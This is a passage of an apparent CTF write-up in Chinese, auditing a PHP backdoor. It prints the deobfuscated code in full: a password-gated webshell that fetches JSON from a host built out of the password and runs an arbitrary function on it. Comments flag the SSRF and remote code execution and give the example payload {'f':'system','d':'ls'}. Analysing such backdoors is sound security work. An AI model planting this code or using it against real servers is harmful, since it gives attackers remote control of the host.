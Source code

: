 ![1571141089817](writeup/1571141089817.png)

## 0x02 后门审计

格式化后，进行代码审计

```php
<?php
$a = isset($_POST['pass']) ? trim($_POST['pass']) : '';
if ($a == '') {
    echologin();
} else {
    chkpass($a);
    helloowner($a);
}
function chkpass($a) {
    // UA是md5(POST['pass'])
    if (stripos($_SERVER['HTTP_USER_AGENT'], md5($a)) === false) {
        echofail(1);
    }
    return true;
}
function helloowner($a) {
    // 这里产生一个url
    $b = gencodeurl($a);
    // 从url获取文件内容，SSRF
    $c = file_get_contents($b);
    if ($c == false) {
        echofail(2);
    }
    $d = @json_decode($c, 1);
    if (!isset($d['f'])) {
        echofail(3);
    }
    // CodeInjection, may cause RCE, e.g.,{"f":"system","d":"ls"}
    $d['f']($d['d']);
}
function gencodeurl($a) {
    $e = md5(date("Y-m-d"));
    if (strlen($a) > 40) {
        $f = substr($a, 30, 5);
        $g = substr($a, 10, 10);
    } else {
        $f = 'good';
        $g = 'web.com';
    }
    $b = 'http://'.$f.$g; // url=http://pass[30:35]+pass[10:20], i.e.,url<=15
    return $b;
}
function echofail($h) {/*...*/}
function echologin() {/*...*/} 
?>
```
